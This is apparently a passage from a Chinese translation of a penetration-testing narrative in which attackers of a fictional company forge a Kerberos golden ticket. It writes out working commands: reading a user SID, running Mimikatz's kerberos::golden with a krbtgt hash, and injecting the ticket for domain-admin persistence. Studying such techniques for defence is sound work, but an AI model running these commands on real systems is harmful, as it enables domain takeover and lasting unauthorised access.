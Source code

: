 我们安全地将哈希存储在前置服务器中。要生成黄金票据，我们还需要确定域的 SID：Windows 上的唯一对象标识符：
```
PS C:\users\public> whoami /user
User Name SID
================= =========================
gbshop\rachel_adm S-1-5-21-2376009117-2296651833-4279148973-1116
```

我们删除用户SID的最后一部分以获取域的标识符：s-1-5-21-2376009117-2296651833-4279148973。

然后，我们使用 Mimikatz 创建模拟主要 Windows 域管理员帐户的黄金票据：
```
PS C:\users\public> Invoke-Mimikatz -Command '"kerberos::golden
/admin:Administrator /domain:gbshop.corp
/krbtgt:6a5c12974ec341dd244b693ad4d38369
/sid:S-1-5-21-2376009117-2296651833-4279148973 /ticket:admin.kirbi"'
```
![](chap4/chap4-36.jpg)


如果下次我们想使用来自新Empire会话的黄金票据时，我们将发出以下命令：
```
PS C:\users\public> Invoke-Mimikatz -Command '"sekurlsa::ptt admin.kirbi"'
```

Mimikatz将把管理员票据插入当前会话，授予我们完全的域管理权限。然后，我们可以在远程服务器上发出WMI命令、执行命令、添加用户等。

丢失黄金票据的唯一方法是更改两次 krbtgt 密码...祝你好运吉布森鸟，看来我们要共度一生了！




> 翻译：Ryan 2020/2/19

